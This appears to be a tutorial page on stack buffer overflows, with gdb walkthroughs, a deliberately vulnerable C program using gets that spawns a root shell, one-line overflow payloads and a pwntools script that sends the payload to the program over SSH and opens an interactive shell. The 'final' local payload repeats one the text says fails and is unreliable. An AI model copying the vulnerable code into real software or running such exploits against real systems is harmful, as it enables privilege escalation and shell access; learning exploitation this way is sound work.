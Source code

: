 # Buffer overflow

So, as I wrote before this vulnerability allows you to overwrite data.

## Structure within the stack

Suppose that we have a follow program:
```C
#include <stdlib.h>
/*
This program is simple as possible
*/

// Compile with:
// gcc stack-example.c -o stack-example -m32
// -m32 option is just for better explanation

int some_func1(int a, int b, int c, int d, int e, int f){
  int result = some_func2(e, f);
  return a + b + c + d + result;
}

int some_func2(int e, int f){
  int argv[10];
  short ind;
  size_t len = 10;
  for(ind = 0; ind < 10; ind++){
    argv[ind] = ind;
  }
  return e * f;
}

int main(int argc, char *argv[]){
  int a = 1, b = 2, c = 3, d=4, e=5, f=6;
  int result = some_func1(a, b, c, d, e, f);
  return 0;
}
```

When the program starts, the stack contains the argc and argv arguments to the main function (also envp).
When a new function is executed, its arguments are moved either to registers (for example, `rax`, `rbx`, `rcx`, `rdx`, `rdi`, `rsi` in Intel x86-64), or directly onto the stack (via `push 0x1` type of instructions).

Let's take a look at the assembly instructions within main:

```bash
gef➤  disas main
Dump of assembler code for function main:
   0x5655620c <+0>:	lea    ecx,[esp+0x4]
   0x56556210 <+4>:	and    esp,0xfffffff0
   0x56556213 <+7>:	push   DWORD PTR [ecx-0x4]
   0x56556216 <+10>:	push   ebp
   0x56556217 <+11>:	mov    ebp,esp
   0x56556219 <+13>:	push   ecx
   0x5655621a <+14>:	sub    esp,0x24
   0x5655621d <+17>:	call   0x5655627e <__x86.get_pc_thunk.ax>
   0x56556222 <+22>:	add    eax,0x2dde
   0x56556227 <+27>:	mov    DWORD PTR [ebp-0xc],0x1
   0x5655622e <+34>:	mov    DWORD PTR [ebp-0x10],0x2
   0x56556235 <+41>:	mov    DWORD PTR [ebp-0x14],0x3
   0x5655623c <+48>:	mov    DWORD PTR [ebp-0x18],0x4
   0x56556243 <+55>:	mov    DWORD PTR [ebp-0x1c],0x5
   0x5655624a <+62>:	mov    DWORD PTR [ebp-0x20],0x6
   0x56556251 <+69>:	sub    esp,0x8
   0x56556254 <+72>:	push   DWORD PTR [ebp-0x20]
   0x56556257 <+75>:	push   DWORD PTR [ebp-0x1c]
   0x5655625a <+78>:	push   DWORD PTR [ebp-0x18]
   0x5655625d <+81>:	push   DWORD PTR [ebp-0x14]
   0x56556260 <+84>:	push   DWORD PTR [ebp-0x10]
   0x56556263 <+87>:	push   DWORD PTR [ebp-0xc]
   0x56556266 <+90>:	call   0x56556189 <some_func1>
   0x5655626b <+95>:	add    esp,0x20
   0x5655626e <+98>:	mov    DWORD PTR [ebp-0x24],eax
   0x56556271 <+101>:	mov    eax,0x0
   0x56556276 <+106>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x56556279 <+109>:	leave  
   0x5655627a <+110>:	lea    esp,[ecx-0x4]
   0x5655627d <+113>:	ret    
End of assembler dump.
gef➤  

```

You can see that here we are pushing 1, 2, 3, 4, 5, 6 onto the stack at ebp - some offset. `ebp` is just a base pointer that is placed at the bottom of the stack portion of the currently called function.
EBP also provides access to the required address on the stack where the values ​​of the variables are stored. So, when you declare the first variable in a function and set some value for it, for example, int value = 4, you can access it with `ebp - 0x4`. If you have a buffer of integers, for example, 10 in size, you can access it with `ebp - 0x28`. Etc.

Proof of concept:
```bash
gef>  b *some_func1 + 11
gef➤  x/50wx $ebp
0xffffd1d8:	0xffffd228	0x5655626b	0x00000001	0x00000002
0xffffd1e8:	0x00000003	0x00000004	0x00000005	0x00000006
0xffffd1f8:	0x00000000	0x56556222	0xf7fb13fc	0x56559000
0xffffd208:	0x00000006	0x00000005	0x00000004	0x00000003
0xffffd218:	0x00000002	0x00000001	0xf7fe4520	0xffffd240
0xffffd228:	0x00000000	0xf7df1b41	0xf7fb1000	0xf7fb1000
0xffffd238:	0x00000000	0xf7df1b41	0x00000002	0xffffd2d4
0xffffd248:	0xffffd2e0	0xffffd264	0x00000001	0x00000000
0xffffd258:	0xf7fb1000	0xffffffff	0xf7ffd000	0x00000000
0xffffd268:	0xf7fb1000	0xf7fb1000	0x00000000	0xc574ab7c
0xffffd278:	0x84e62d6c	0x00000000	0x00000000	0x00000000
0xffffd288:	0x00000002	0x56556050	0x00000000	0xf7fe9690
0xffffd298:	0xf7fe4520	0x56559000
```

At the address of `0xffffd1d8` - `0xffffd1e8` you can see our values 1, 2, 3, 4, 5, 6. But before them you can see the address `0x5655626b` which is just the address of the next assembly instruction after `some_func1` call. This is a return address, and the `ret` instruction will take it and place it in `eip` register which holds the address of the next instruction to execute.

## Exploitation

So, I wrote a simple program that has a part with a `system` Unix syscall to execute `/bin/sh`. You need to compile it without stack protection.

```C
#include <unistd.h>

//  gcc buffer-overflow.c -o buffer-overflow -fno-stack-protector

int main(int argc, char *argv[]){
  char vuln_buff[100];
  int access = 4321;
  // vulnerable
  gets(vuln_buff);
  if (access == 1234){
    setuid(0);
    system("/bin/sh");
  }
  return 0;
}
```

Also, it used the vulnerable function `gets`. But this is vulnerable because it doesn't check the input size. It may be also a programming mistake with `read`.
Okay, we know the size of buffer, buf if we wouldn't know, then you can see it in the gdb:

```bash
0x0000000000001183 <+26>:	lea    rax,[rbp-0x70]
0x0000000000001187 <+30>:	mov    rdi,rax
0x000000000000118a <+33>:	mov    eax,0x0
0x000000000000118f <+38>:	call   0x1070 <gets@plt>
```

Line `+26` shows you that for some reasons, buffer size in machine code is 112 bytes. So, you can exploit it:

```bash
gcc buf-overflow.c -o buffer-overflow -fno-stack-protector
(python -c 'print "A"*112 + "\xdd\xdd"'; cat) | ./buffer-overflow
```

But, you don't get a shell, cause you overwrote the access variable with `0xdddd`. You can with what hex address it compares in the gdb:

```bash
   0x0000000000001194 <+43>:	cmp    DWORD PTR [rbp-0x4],0x4d2
```

So, your final exploit:

```bash
(python -c 'print "A"*112 + "\xdd\xdd"'; cat) | ./buffer-overflow
```

And you will get a shell, but you will be you, not the other user or root. Yeah, in this kind of program, the vulnerability is useless for an attacker, but if it has a `suid` bit set(`chmod ug+s buffer-overflow` as another user), he can get a root or another user privilege. But, if a program with some network interactions has this vulnerability, then the attacker can get Remote Code Execution or RCE, even if the program doesn't have a suid on the root or other user. Also, the main reason for RCE here is the condition which gives a shell, but even so, this vulnerability opens a thread to further exploitation.


### Remote exploit with pwntools

Here the exploit to this program using `pwntools` python module:
```python
from pwn import *

# Connect to target via ssh
con = ssh('user', '192.168.43.61', password='user', port=22)
# Execute a vulnerable program
p = con.process('./buffer-overflow')
# Payload
payload = "A"*108 + "\xd2\x04"
# Send payload
p.sendline(payload)
# To attach with gdb to remote process
#gdb.attach(p, "b *main")
# Now, you can work with shell interactively
p.interactive()
```

One difference here is the offset between the buffer and the value to overwrite. This offset often can be different from the local exploit.
